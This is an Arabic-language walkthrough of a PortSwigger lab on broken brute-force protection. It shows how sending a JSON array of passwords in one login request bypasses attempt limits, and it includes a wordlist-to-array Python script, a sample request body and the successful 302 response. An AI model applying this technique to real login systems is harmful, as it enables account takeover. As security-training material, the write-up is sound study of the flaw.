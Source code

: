 # [Broken brute-force protection, multiple credentials per request](https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request)
21-10-2025

> **الهدف**: استغلال خلل يسمح بإرسال مجموعة كلمات مرور في طلب واحد (password array) بحيث يتعامل الخادم مع الطلب بطريقة تؤدي لتجاوز حماية الـ brute-force. بعد إيجاد الباسورد الصحيح، قم بالدخول إلى صفحة الحساب `carlos`.

---

## 1) ملخص سريع للثغرة

التطبيق يقبل حقل `password` على أنه مصفوفة من الكلمات وليس قيمة مفردة، ويمكنه التحقق من كل العناصر في نفس الطلب. هذا يؤدي إلى منطق خاطئ في حماية الـ brute-force لأنك تستطيع إرسال مجموعة من المحاولات دفعة واحدة في طلب واحد — أي أنك تختصر عدة محاولات في طلب واحد وتتجاوز عدّاد الرفض/التأخير.

**النتيجة العملية**: إرسال JSON مثل:

```json
{
  "username": "carlos",
  "password": ["123456","password","qwerty", ...]
}
```

ثم الخادم يعيد استجابة تشير إلى تسجيل دخول ناجح (مثلاً `302 Found` مع `Location: /my-account?id=carlos` و`Set-Cookie: session=...`).

---

## 2)الخطوات

1. أرسلت أولاً طلب تسجيل دخول عادي من المتصفح ولاحظت شكل الـ request: `{"username":"carlos","password":"asdf"}`.
2. أرسلت الطلب إلى **Burp** وفتحت **Intruder/Repeater** للتعديل والاختبار.
3. لاحظت التلميح في الوصف: يبدو أن `password` يمكن أن يكون مصفوفة.
4. جهزت قائمة كلمات (ملف `pass.txt`) وحوّلتها إلى مصفوفة JSON كما يلي (سكربت بايثون بسيط):

```python
with open('pass.txt', 'r') as f:
    passwords = [f'"{line.rstrip()}"' for line in f]

result = "[\n    " + ",\n    ".join(passwords) + "\n]"
print(result)
```

5. وضعت الناتج داخل حقل `password` في جسم الـ JSON ورفعت الطلب. مثال جسم الطلب

```json
{
  "username": "carlos",
  "password": [
    "123456",
    "password",
    "qwerty",
    ...
  ]
}
```

6. حصلت على استجابة 
```txt
HTTP/2 302 Found
Location: /my-account?id=carlos
Set-Cookie: session=7n4aQ2HPfRlHDGJiLkzPWoaobojvI0O1; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```
6. فتحت المتصفح باستخدام نفس الجلسة/الكوكي وشوفت صفحة الحساب:
	1. <mark style="background: #ADCCFFA6;">المختبر اتحل. الحمد لله </mark>
---

## 4) (فهم منطقي)

* السيرفر يتعامل مع الـ `password` كمصفوفة ويجرب عناصرها داخل نفس العملية بدلاً من عدّ كل محاولة على أنها طلب مستقل.
* حماية الـ brute-force مُصمّمة عادةً لحساب عدد الطلبات الخاطئة لكل جلسة/IP/يوزر، لكن هنا كل طلب يخفي داخله عدة محاولات.
* النتيجة: القدرة على تجربة عدد كبير من كلمات المرور داخل عدد قليل من الطلبات، وتجاوز آليات الحظر التقليدية.

---
